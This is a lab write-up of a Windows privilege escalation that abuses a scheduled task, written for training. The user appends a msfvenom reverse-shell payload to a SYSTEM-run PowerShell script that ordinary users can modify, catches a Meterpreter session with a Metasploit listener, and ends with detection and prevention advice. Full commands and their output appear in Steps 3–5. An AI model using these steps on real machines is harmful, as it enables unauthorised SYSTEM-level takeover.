




# Scheduled Task Manipulation

**Date:** June 2026<br>
**Author:** ShahinSecLab<br>
**Category:** Privilege Escalation<br>
**Difficulty:** Easy<br>
**Tools:** msfvenom, Metasploit, accesschk.exe

# Table of Contents

* [Introduction](#introduction)
* [Attack Flow](#attack-flow)
* [Why This Attack Works](#why-this-attack-works)
* [Lab Setup](#lab-setup)
* [Tools Used](#tools-used)
* [Prerequisites](#prerequisites)
* [Step 1 — Exploring the File System](#step-1--exploring-the-file-system)
* [Step 2 — Finding the Vulnerable Script in DevTools](#step-2--finding-the-vulnerable-script-in-devtools)
* [Step 3 — Checking File Permissions on CleanUp.ps1](#step-3--checking-file-permissions-on-cleanupps1)
* [Step 4 — Injecting the Payload into CleanUp.ps1](#step-4--injecting-the-payload-into-cleanupps1)
* [Step 5 — Waiting for the Shell](#step-5--waiting-for-the-shell)
* [How Defenders Can Catch This](#how-defenders-can-catch-this)
* [How to Prevent It](#how-to-prevent-it)
* [References](#references)
* [Lessons Learned](#lessons-learned)

## Introduction

Scheduled Task Manipulation is a Windows privilege escalation technique that takes advantage of weak permissions on files used by scheduled tasks.

Windows scheduled tasks are used to run scripts and programs automatically at a specific time or when a certain event happens. If a scheduled task runs a script as `SYSTEM` and a normal user can edit that script, they can add their own commands to the file. When the task runs again, Windows will execute those commands with `SYSTEM` privileges, which can give full control of the machine.

## Attack Flow

```
Already had a low privilege Meterpreter shell on the victim
                        ↓
Dropped into a CMD shell and explored C:\
                        ↓
Found C:\DevTools folder with CleanUp.ps1 inside
                        ↓
Opened CleanUp.ps1 — comment said it runs every minute as SYSTEM
                        ↓
Checked file permissions with accesschk.exe
                        ↓
Found full write access for normal users on CleanUp.ps1
                        ↓
Appended C:\PrivEsc\rev.exe to the end of CleanUp.ps1
                        ↓
Started Metasploit listener on port 4444
                        ↓
Waited for the scheduled task to fire
                        ↓
Task ran CleanUp.ps1 as SYSTEM — hit the injected line
                        ↓
rev.exe executed as SYSTEM
                        ↓
Metasploit caught the shell
                        ↓
Meterpreter session opened as SYSTEM
```
## Why This Attack Works

Scheduled tasks are often used for system maintenance, backups, and cleanup jobs. Many of these tasks run with high privileges such as `SYSTEM`.

The problem happens when the script or program used by the task has weak file permissions. If a normal user can edit that file, they can add their own commands or replace the file.

When the scheduled task runs again, Windows does not check who modified the file. It simply runs the script with the permissions assigned to the task.

In this case, `CleanUp.ps1` was running as `SYSTEM`, but normal users had write access to the file. By adding my payload to the script, it was executed with `SYSTEM` privileges.

## Lab Setup

|    Component     |         Details         |
|------------------|-------------------------|
| Attacker Machine | Kali Linux              |
| Attacker IP      | `192.168.5.128`           |
| Victim Machine   | Windows 10 (MSEDGEWIN10)|
| Victim IP        | `192.168.5.144 `          |
| Network          | VMware Host-Only Network|
| Domain           | WORKGROUP               |

## Tools Used

| Tool            | Location                    | Purpose                                 |
|-----------------|-----------------------------|-----------------------------------------|
| `accesschk.exe`   | /home/kali/Desktop/tools/   | Check file permissions                  |
| `rev.exe `        | C:\PrivEsc\ on victim       | Malicious payload already on the victim |
| `Metasploit`      | Built into Kali             | Catch reverse shells                    |

## Prerequisites

| What  | Why |
|-------------|---------|
| Windows machine with a vulnerable scheduled task | Target machine |
| Low privilege shell on the target | Required to access and modify files |
| Scheduled task running as SYSTEM | Needed to get higher privileges |
| Writable script or binary used by the task | Allows modification of the task file |
| Kali Linux | Attacker machine |
| Existing payload on the victim | Used to get a reverse shell |

## Step 1 — Exploring the File System

I already had a Meterpreter shell on the victim machine as a low privilege user. I opened a CMD shell and started checking the folders on the system.

```bash
meterpreter > shell
```
```bash
C:\PrivEsc> cd ..
C:\> dir
```
**Output:**

```
 Directory of C:\

06/18/2026  03:59 AM    <DIR>          DevTools
06/22/2026  09:04 PM    <DIR>          inetpub
12/07/2019  02:14 AM    <DIR>          PerfLogs
06/23/2026  09:18 PM    <DIR>          PrivEsc
06/20/2026  03:12 AM    <DIR>          Program Files
05/05/2023  05:27 AM    <DIR>          Program Files (x86)
06/23/2026  05:45 AM    <DIR>          Temp
06/18/2026  04:40 AM    <DIR>          Users
06/22/2026  09:06 PM    <DIR>          Windows
               0 File(s)              0 bytes
               9 Dir(s)  28,201,332,736 bytes free
```
I checked the folders to find anything unusual. I noticed `BGinfo` and `DevTools` because they were not normal Windows folders. I checked these folders to see if they contained anything useful.

<p align="center">
  
</p>

## Step 2 — Finding the Vulnerable Script in DevTools

I moved into the `DevTools` folder and checked its contents.

```bash
C:\> cd DevTools
C:\DevTools> dir
```
**Output:**

```
06/18/2026  03:59 AM    <DIR>          .
06/18/2026  03:59 AM    <DIR>          ..
06/18/2026  03:59 AM               173 CleanUp.ps1
               1 File(s)            173 bytes
               2 Dir(s)  28,202,348,544 bytes free
```
I found a script named `CleanUp.ps1`.

<p align="center">
  
</p>

I checked the contents of the file.

```bash
C:\DevTools> type CleanUp.ps1
```
**Output:**

```
# This script will clean up all your old dev logs every minute.
# To avoid permissions issues, run as SYSTEM (should probably fix this later)

Remove-Item C:\DevTools\*.log
```
The script showed that:

- It runs every minute.
- It runs with `SYSTEM` privileges.
- The note in the script mentioned that the permissions should be fixed, but they were still unchanged.

Since this script runs as `SYSTEM` and I needed to check if I could modify it,` CleanUp.ps1` became my target.

<p align="center">
  
</p>

## Step 3 — Checking File Permissions on CleanUp.ps1

I checked the permissions of `CleanUp.ps1` using `accesschk.exe` to see if my current user could modify the file.

```bash
C:\PrivEsc> .\accesschk.exe /accepteula -uwqv user C:\DevTools\CleanUp.ps1
```
**Breakdown**

|           Part           |                         Description                                                        |
|--------------------------|--------------------------------------------------------------------------------------------|
| `\accesschk.exe`        | Runs the **AccessChk** tool from the specified directory.                                  |
|     `/accepteula`          | Automatically accepts the Sysinternals license agreement so it doesn't prompt on first run.|
|         `-u `              | Suppresses errors (for example, "Access Denied") to keep the output clean.                 |
|         `-w`               | Displays only objects that have **write permissions**.                                     |
|         `-q`               | Quiet mode. Omits the banner and unnecessary output.                                       |
|         `-v`               | Verbose mode. Shows detailed permission information.                                       |
|         `user`             | Checks the permissions assigned to the **user** account.                                   |
| `C:\DevTools\CleanUp.ps1`  | The target file whose permissions are being checked.                                       |

**Output:**

```
RW C:\DevTools\CleanUp.ps1
        FILE_ALL_ACCESS
```
The output showed that my user account had `FILE_ALL_ACCESS` permission on `CleanUp.ps1`.

This meant I could edit the script. Since the scheduled task runs this script as `SYSTEM`, any command added to the file would run with `SYSTEM` privileges when the task starts.

<p align="center">
  
</p>

## Step 4 — Injecting the Payload into CleanUp.ps1

I already had a payload named `rev.exe` created with `msfvenom` and saved it at `C:\PrivEsc\rev.exe`.

I added the payload path to the end of the `CleanUp.ps1` script. When the scheduled task runs this script again, it will also execute `rev.exe`.

```bash
C:\DevTools> echo C:\privEsc\rev.exe >> C:\DevTools\CleanUp.ps1
```
I checked the file size to confirm that the script was changed.

```bash
C:\DevTools> dir
```
**Output:**

```
06/23/2026  10:00 PM               194 CleanUp.ps1
```
The file size increased from `173` bytes to `194` **bytes**, which confirmed that the new line was added successfully.

Updated `CleanUp.ps1` file:

```
# This script will clean up all your old dev logs every minute.
# To avoid permissions issues, run as SYSTEM (should probably fix this later)

Remove-Item C:\DevTools\*.log
C:\privEsc\rev.exe
```
The last line was added by me. When the scheduled task runs `CleanUp.ps1` again, it will execute `rev.exe` with the same permissions as the task, which is `SYSTEM`.

## Step 5 — Waiting for the Shell

I started a Metasploit listener on Kali and waited. The task runs every minute, I did not need to start it manually..

```bash
msfconsole -q
use multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost 192.168.5.128
set lport 4444
run
```
**Output:**

```
[*] Started reverse TCP handler on 192.168.5.128:4444
```

### Metasploit Caught the Connection

```
[*] Sending stage (244806 bytes) to 192.168.5.144
[*] Meterpreter session 1 opened (192.168.5.128:4444 -> 192.168.5.144:50247) at 2026-06-24 01:49:16 -0400

meterpreter >
```
I opened a command shell and checked the current user.

```bash
meterpreter > shell
```
```bash
C:\Windows\system32>whoami
```
**Output:**

```
nt authority\system
```
<p align="center">
  
</p>

The scheduled task ran `CleanUp.ps1` with `SYSTEM` privileges. The added `rev.exe` line was executed, and I received a Meterpreter shell with SYSTEM access on my Kali machine.

## How Defenders Can Catch This

- Check scheduled tasks and review what files they run.
- Monitor changes to scripts and files used by scheduled tasks.
- Look for normal users having write permissions on files that run with SYSTEM privileges.
- Monitor unexpected changes inside folders like C:\Windows, C:\ProgramData, and application folders.
- Review Windows event logs for scheduled task execution and file changes.
- Use file integrity monitoring to detect changes to important scripts.

## How to Prevent It

- Do not give normal users write permissions on scripts or binaries used by scheduled tasks.
- Make sure scheduled task files are owned and controlled by administrators.
- Run scheduled tasks with the lowest privileges required.
- Regularly review scheduled task permissions.
- Remove unused scheduled tasks.
- Use proper folder permissions and follow the principle of least privilege.
- Monitor important scripts for unauthorized changes.

## References

| Resource | Link |
|----------|------|
| Microsoft Scheduled Tasks Documentation | https://learn.microsoft.com/en-us/windows/win32/taskschd/task-scheduler-start-page |
| Microsoft Access Control Documentation | https://learn.microsoft.com/en-us/windows/security/identity-protection/access-control/access-control |
| Sysinternals AccessChk Documentation | https://learn.microsoft.com/en-us/sysinternals/downloads/accesschk |
| HackTricks — Windows Privilege Escalation | https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation |

## Lessons Learned

While working through this attack I learned that:

- A simple file permission mistake can lead to full SYSTEM access.
- Scheduled tasks should always use proper file permissions.
- A script running as SYSTEM is dangerous if normal users can modify it.
- Checking file permissions is an important step during Windows privilege escalation.
- accesschk.exe helps find files and services with weak permissions.
- Regular users should never have write access to files executed by high privilege accounts.
- Small configuration mistakes can give attackers complete control of a Windows machine.
